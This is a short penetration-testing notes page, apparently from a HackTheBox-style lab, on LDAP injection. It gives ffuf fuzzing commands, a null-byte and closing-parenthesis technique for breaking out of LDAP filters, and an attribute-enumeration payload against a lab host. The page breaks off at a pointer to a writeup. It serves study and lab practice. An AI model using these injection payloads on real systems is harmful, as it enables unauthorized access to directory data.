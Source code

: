 # LDAP Injection

## Indicator

```bash
ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt -u 'http://example.com?param=FUZZ'
```

**Output:**

```
*                      [Status: 200, ...]
(                      [Status: 200, ...]
\                      [Status: 200, ...]
)                      [Status: 200, ...]
```

## Methodology

End with null byte (`%00`), add `)` progressively to understand the context of the query

IppSec video: https://youtube.com/watch?v=51JQg202csw&t=885

Null byte in ldap is the equivalent to a comment in SQL injection, terminating the statement

Example query

```
(&
	(name=technician)
)
```

Adding the null byte wipes out everything after it, so applying our methodology in this example reveals that we need to add 2 `)` to get expected output and not break the site:

```
(&
	(name=technician))%00
```

We can now fuzz attributes with the following example

```bash
ffuf -w /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt -u 'http://internal.analysis.htb/users/list.php?name=technician)(FUZZ%3d*' -ms 418
```

We match size of 418 cause this is output size matches where the website doesnt break and provides expected output.

Check the following writeup to continue following the logic: 
